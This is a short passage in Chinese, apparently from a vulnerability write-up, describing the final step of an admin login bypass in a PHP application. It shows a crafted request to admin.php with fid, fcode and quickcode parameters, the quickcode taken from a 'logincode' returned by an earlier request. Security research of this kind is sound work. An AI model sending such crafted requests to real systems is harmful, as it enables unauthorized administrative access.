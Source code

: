 此时的`content`值为最前面代码生成的值

![image-20231029223405893](assets/1702521293-3613309e89d1e08d334463faee160b97.jpg)

最后构造`update`请求

```php
/admin.php?c=login&f=update&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&fcode=IuTqXDTrmZ&quickcode=5763e7yWM3LaZJQTPPSlkZFkTFx6omzreRjsbYXPaoAIiC1hhKNXxRczafeiIAeBbQh7yryr5kK95L5H6DTne06PB0P7gJEwEszkv3uxGqEJawXLczrMe5ifwr2BcEls8bpuA
```

`quickcode`为上一步返回包中`logincode`的值

![image-20231029223602797](assets/1702521293-414149be0953c3f8dbc1c0aee860952b.jpg)
